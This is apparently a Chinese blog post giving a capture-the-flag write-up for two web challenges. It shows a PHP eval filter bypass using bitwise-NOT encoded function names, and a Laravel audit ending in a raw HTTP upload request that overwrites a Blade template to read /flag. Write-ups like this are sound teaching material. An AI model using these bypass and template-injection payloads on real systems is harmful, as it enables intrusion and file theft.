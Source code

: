 ```yaml
---
title: "广东强网杯两道Web Writeup"
date: 2019-09-12T09:06:02+08:00
lastmod: 2019-09-12T09:06:02+08:00
draft: false
tags: ['ctf']
categories: ['ctf']
comment: true
---
```


@level5师傅发在群里的题目，做了两道

<!--more-->

# web4 php

http://119.61.19.212:8082/index.php

```php
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
function GetYourFlag(){
    echo file_get_contents("./flag.php");
}

if(isset($_GET['code'])){
    $code = $_GET['code'];
    //print(strlen($code));
    if(strlen($code)>27){ 
        die("Too Long.");
    }

    if(preg_match('/[a-zA-Z0-9_&^<>"\']+/',$_GET['code'])) {
        die("Not Allowed.");
    }
    @eval($_GET['code']);
}else{
      highlight_file(__FILE__);
}
?>
```

过滤字符数字下划线等等 长度小于等于27 然后调用GetYourFlag()函数即可，可以用`~`按位取反

```php
echo urlencode(~('GetYourFlag'));
```

得到

```php
%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98
```

然后函数需要再取反回来

```php
~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98)
```

存到一个变量里，因为过滤，我们用中文来定义变量，我在这用`中`字

```php
echo urlencode('中');	//%E4%B8%AD
```

然后用变量存储我们取反回来的GetYourFlag函数，最后通过变量来调用这个函数

```php
$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

最后的payload

```
view-source:http://119.61.19.212:8082/index.php?code=$%E4%B8%AD=~(%B8%9A%8B%A6%90%8A%8D%B9%93%9E%98);$%E4%B8%AD();
```

# web5

laravel的代码审计

路由

![20190912093854](https://y4er.com/img/uploads/20190912093854.png)

app/Http/Controllers/UserController.php 注入

![20190912093943](https://y4er.com/img/uploads/20190912093943.png)

![20190912094106](https://y4er.com/img/uploads/20190912094106.png)

密码解不出来，但是在database/factories/UserFactory.php这个工厂函数中给出来了

![20190912095222](https://y4er.com/img/uploads/20190912095222.png)

继续看 app/Http/Controllers/HomeController.php

![20190912094237](https://y4er.com/img/uploads/20190912094237.png)

登录后要从数据库中拿到key，然后才能上传文件，也就是进入`HomeController@uploadss`。传文件的文件名经过一层filecheck()过滤之后移动到视图模板的目录里，清晰了，通过上传覆盖原本的模板然后模板注入读flag。

![20190912094545](https://y4er.com/img/uploads/20190912094545.png)

正好`/resources/views/auth/uploads/`目录有一个`template.blade.php`模板，而路由中也有控制器去渲染这个模板。

![20190912094749](https://y4er.com/img/uploads/20190912094749.png)

![20190912094834](https://y4er.com/img/uploads/20190912094834.png)

构造表单上传之后发现上传filecheck()过滤了很多东西，不能有`php` `<`字样。

首先我们要知道laravel的blade模板是可以自定义php代码的，但是必须是如下格式

```php
@php
    //
@endphp
```

但是过滤了php关键字，没办法，只能去扒一扒blade的文档了，然后发现了自定义模板标签 https://laravel.com/docs/5.8/blade#extending-blade

![20190912095812](https://y4er.com/img/uploads/20190912095812.png)

牛逼，直接@filedata('/flag')就完事了。

```http
POST /home/uploadss/NotAllow6171 HTTP/1.1
Host: 119.61.19.212:8085
Content-Length: 444
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvJNe9ABsnjeKGhDN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6IitoWjhwMm1ycmNTWFozSmZTTXJwXC9nPT0iLCJ2YWx1ZSI6IkllczhnNEZodldZbllTN0NmZDErR2I1eXF1bU9mV1wvYklManNuUnQ4YzhJcmlWQ09JVXJPXC9JNHZxVU0xRmdCY0RDbWJHelVwYjQyVjdXQ1FHVlFMMlE9PSIsIm1hYyI6IjNmMGUzZTEwYTA2ZDA2MjJjMDg4OTY5NTI4NDJjNTk2YmQ4N2U4NWYxY2E2ZjU3YWEwNTAwODllMzIyYTU4ZjAifQ%3D%3D; laravel_session=eyJpdiI6InRhRzZmenBJSmFLNHhrb0RlUE5OdVE9PSIsInZhbHVlIjoiZ01qK2JpQURoRHgxbFVrcGc4TE9PK2kycGxSTjlNRzkwK21uVDUxa3UyTW5JYXpIcWJaY2pYbXQwNDc0dklkemNjRmR0aFhZcllmTkRvQXpVUlR3d3c9PSIsIm1hYyI6IjAwMjVkODA3YmY5NDU1Y2U5MDMyMWMwMTI1MTcyMmQ1YTU5NWQzMTE0MGMxMzc0ZWM1NDU4YzQ5MWIyZjI5YTgifQ%3D%3D
Connection: close

------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="_token"

Z7VZ7FXfNzuzETtQrZ7DeAZCFtbkQl9L8e7ptVin
------WebKitFormBoundaryvJNe9ABsnjeKGhDN
Content-Disposition: form-data; name="files"; filename="template.blade.php"
Content-Type: text/html

@filedata('/flag')
------WebKitFormBoundaryvJNe9ABsnjeKGhDN

Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryvJNe9ABsnjeKGhDN--
```



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**